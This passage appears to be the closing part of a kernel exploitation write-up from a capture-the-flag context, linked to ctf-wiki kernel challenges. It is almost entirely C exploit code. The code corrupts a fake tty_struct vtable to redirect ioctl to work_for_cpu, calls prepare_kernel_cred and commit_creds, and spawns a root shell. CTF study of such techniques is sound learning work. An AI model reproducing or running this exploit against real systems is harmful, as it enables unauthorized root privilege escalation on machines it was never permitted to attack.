 ```c
    size_t * vtable[0x100] = {0};

    read(fp,( char * )fake_tty,0);
    fake_tty[3] = note_addr;
    fake_tty[4] = prepare_cred;
    fake_tty[5] = 0;


    // Modify the Vtable of TTY fd
    write(fp,( char * )fake_tty,0);
    vtable[12] = work_for_cpu;
    write(fp,vtable,1);


    //
    printf("[+] Prepare a cred\n");
    ioctl(mx,233,233);//TBD


    read(fp,( char * )fake_tty,0);
    size_t cred = u64(&fake_tty[6]);
    // printf("%p\n",cred);
    read(fp,( char * )fake_tty,0);
    fake_tty[4] = commit_cred;
    fake_tty[5] = cred;
    write(fp,( char * )fake_tty,0);
    puts("[+] Commit the cred");
    ioctl(mx,233,233);


    read(fp,( char * )fake_tty,0);
    if(0!=u64(&fake_tty[6]))
        Panic("Fail to commit the cred");
    puts("[+] Spawning a root shell...");
    puts("[!] Hi Root,");
    system("/bin/sh");

}
```


[1]: https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/kernel
[2]: https://ctf-wiki.org/pwn/linux/kernel-mode/exploitation/userfaultfd/
[3]: 
